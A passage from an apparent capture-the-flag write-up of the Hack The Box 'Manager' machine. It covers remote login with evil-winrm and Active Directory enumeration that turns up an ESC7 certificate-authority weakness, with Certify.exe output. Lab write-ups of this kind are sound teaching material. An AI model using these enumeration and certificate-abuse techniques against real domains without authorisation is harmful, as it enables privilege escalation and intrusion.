 Using this, I could `evil-winrm` in as the `raven` user.

![](../../.gitbook/assets/htb-manager-image-3.png)

## Privilege Escalation

### Basic Enumeration --> ESC7

This was an AD machine, so it was unlikely that the creator left behind a Windows / system exploit for the next step. I did the usual enumeration for:

* Basic domain and kerberos enumeration via `PowerView.ps1`.
* ACL Abuse via `bloodhound` collectors.
* Certificate stuff using `Certify.exe`.

The last one found something interesting.

```
*Evil-WinRM* PS C:\Users\Raven> .\certify.exe find /vulnerable

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=manager,DC=htb'

[*] Listing info about the Enterprise CA 'manager-DC01-CA'

    Enterprise CA Name            : manager-DC01-CA
    DNS Hostname                  : dc01.manager.htb
    FullName                      : dc01.manager.htb\manager-DC01-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=manager-DC01-CA, DC=manager, DC=htb
    Cert Thumbprint               : ACE850A2892B1614526F7F2151EE76E752415023
    Cert Serial                   : 5150CE6EC048749448C7390A52F264BB
    Cert Start Date               : 7/27/2023 3:21:05 AM
    Cert End Date                 : 7/27/2122 3:31:04 AM
    Cert Chain                    : CN=manager-DC01-CA,DC=manager,DC=htb
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal
```